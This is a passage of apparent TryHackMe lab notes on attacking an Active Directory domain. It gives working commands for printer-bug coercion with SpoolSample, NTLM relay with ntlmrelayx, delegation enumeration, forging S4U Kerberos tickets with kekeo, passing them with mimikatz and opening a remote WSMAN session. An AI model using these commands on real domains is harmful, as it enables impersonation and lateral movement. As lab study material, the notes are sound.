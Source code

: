 - And on THMWRK1 we can use
```bash
.\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.81.121
```

- Dumped hashes
- If we want to use commands we can use
```bash
impacket-ntlmrelayx -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
```

## Delegations:
- To check for Unconstrained Delegation
```bash
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
- To check for Constrained Delegation
```bash
Get-NetUser -TrustedToAuth
```
- To check for Resource Based Constrained Delegation we can use `StandIn.exe` which gives all three delegations
```bash
StandIn.exe --delegation
```

## Kerberos Delegation
- If we have a password for the service account that can be used we can use `kekeo` and `mimikatz` to get it
- For example we have HTTP and WSMAN that we can use
```bash
# In kekeo
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@

# http
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_eileen.burton /service:http/THMSERVER1.za.tryhackme.loc
# wsman
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_eileen.burton /service:wsman/THMSERVER1.za.tryhackme.loc
```

- Then we can use `mimikatz` to import them
```bash
# http
kerberos::ptt TGS_t1_eileen.burton@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
# wsman
kerberos::ptt TGS_t1_eileen.burton@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

- Now we can use WSMAN to create a new session on the PC
```bash
New-PSSession -ComputerName thmserver1.za.tryhackme.loc
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```
